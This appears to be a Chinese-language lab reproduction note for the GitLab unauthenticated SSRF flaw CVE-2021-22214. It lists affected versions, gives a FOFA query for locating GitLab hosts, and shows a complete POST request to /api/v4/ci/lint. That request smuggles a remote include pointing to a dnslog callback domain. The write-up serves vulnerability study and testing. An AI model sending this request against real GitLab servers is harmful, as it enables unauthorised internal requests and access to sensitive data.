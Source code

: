 # GitLab SSRF漏洞 CVE-2021-22214

# GitLab SSRF漏洞 CVE-2021-22214

## 漏洞描述

GitLab存在前台未授权SSRF漏洞，未授权的攻击者也可以利用该漏洞执行SSRF攻击（CVE-2021-22214）。该漏洞源于对用户提供数据的验证不足，远程攻击者可通过发送特殊构造的 HTTP 请求，欺骗应用程序向任意系统发起请求。攻击者成功利用该漏洞可获得敏感数据的访问权限或向其他服务器发送恶意请求。

## 漏洞影响

```
Gitlab > 10.5
```

## 网络测绘

```
app="GitLab"
```

## 环境搭建

http://vulfocus.fofa.so/

![](/images/202202091900273.png)



## 漏洞复现

登录页面如下



![](/images/202202091900222.png)



发送请求包

```plain
POST /api/v4/ci/lint HTTP/1.1
Host: 
User-Agent: python-requests/2.25.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/json
Content-Length: 111

{"include_merged_yaml": true, "content": "include:\n  remote: http://965qaw.dnslog.cn/api/v1/targets?test.yml"}
```



![](/images/202202091900121.png)

